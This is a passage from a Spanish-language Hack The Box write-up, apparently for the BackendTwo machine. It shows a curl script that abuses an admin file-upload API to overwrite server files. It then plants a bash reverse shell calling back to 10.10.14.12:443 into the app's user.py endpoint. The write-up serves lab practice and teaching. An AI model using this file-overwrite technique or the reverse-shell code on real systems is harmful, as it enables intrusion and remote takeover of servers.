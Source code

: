 ```bash
curl -X 'POST' "http://10.10.11.162/api/v1/admin/file/$(echo -n $1 | base64 -w0)" -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"file": "ESto es una prueba"}' -H "Authorization: bearer $bearer"; echo

./files.sh $1
```
```console
└─$ ./writting.sh /home/htb/test
{"result":"success"}
{"file":"Esto es una prueba"}
```

Intenté meter mi clave publica id_rsa.pub en known hosts pero no hubo suerte. (Puse en la parte de data la llave) y en la ruta **/home/htb/.ssh/known_hosts**.
Lo unico que queda es que como tenemos es codigo fuente, meter una linea de reverse shell en el y sobreescribirlo con el tema de subida de archivos. 

Tenemos que escribir a una ruta a la que luego podamos acceder. Por ejemplo un usuario -> ```http://10.10.11.162/api/v1/user/666```
El archivo de los tres que determina esto es ```/home/htb/app/api/v1/endpoints/user.py```
```python
@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)
    if user_id == -666:
        import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.12/443 0>&1"')
```
El marron esque hay que subir esto con curl en data. Es decir hay que trasnformar todo el contenido en un one-liner que meter dentro de un enorme curl
Abri el user.py modificado con vim y aplique estos comandos:
```
:%s/"/\\"/g # -> Sustituye la " por \" (o sea escápala)
:%s/'/'\\''/g # -> la comilla simple como da mas probelmas mejor asi ->  '\''
:%s/\n/\\n/g # -> el salto de linea por un caracter de salto de linea
```
Con todo eso queda en un oneliner, el archivo se llamaria
```echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64 # -> L2hvbWUvaHRiL2FwcC9hcGkvdjEvZW5kcG9pbnRzL3VzZXIucHk=```

![backendtwo2_7](https://user-images.githubusercontent.com/96772264/200114230-ebbaa6e7-785b-4de5-8c4e-96f880af32eb.PNG)

El resultado del one liner seria este:
```